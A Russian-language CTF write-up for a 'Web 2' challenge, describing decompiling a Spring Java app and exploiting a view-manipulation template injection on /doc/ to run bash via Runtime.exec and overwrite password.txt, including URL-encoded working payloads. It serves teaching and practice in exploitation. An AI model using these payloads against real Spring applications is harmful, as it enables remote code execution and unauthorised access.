




# Web 2
Декомпилим исходники сайта через Luyten, потому что исходники на джаве(.jar):\

Видим упоминание springframework, в том числе в MANIFEST.MF, это ам понадобится. В HelloController.class описана основная логика приложения, внимательно читаем его и понимаем, что чтобы получить флаг, нам нужно узнать/записать пароль в password.txt:\
 \
Видим ещё /doc/{document}, который скорее всего можно проэксплатировать. Ищем в яндексе "springframework Path Variable exploit" и натыкаемся на замечательный сайт:\
https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability \
На нём находим эксплоит для /doc: 
```
GET /doc/__${T(java.lang.Runtime).getRuntime().exec("touch executed")}__::.x HTTP/1.1
```
Гуглим как в джаве запускать что-то из шелла: \
https://stackoverflow.com/questions/13707519/running-a-bash-shell-script-in-java
Вместо touch пробуем перезаписать password.txt: 
```
/doc/__${T(java.lang.Runtime).getRuntime().exec(new String[]{"bash", "-c", "echo 4343 > password.txt"})}__::.x
```
и получаем 400: \

Методом перебора понимаем, что проблема в [], поэтому кодируем их в юрл: 
```
192.168.12.13:8090/doc/__${T(java.lang.Runtime).getRuntime().exec(new String%5b%5d{"bash", "-c", "echo 4343 > password.txt"})}__::.x
```
Сработало:
")
Логинимся и получаем флаг!!!!!!!! \

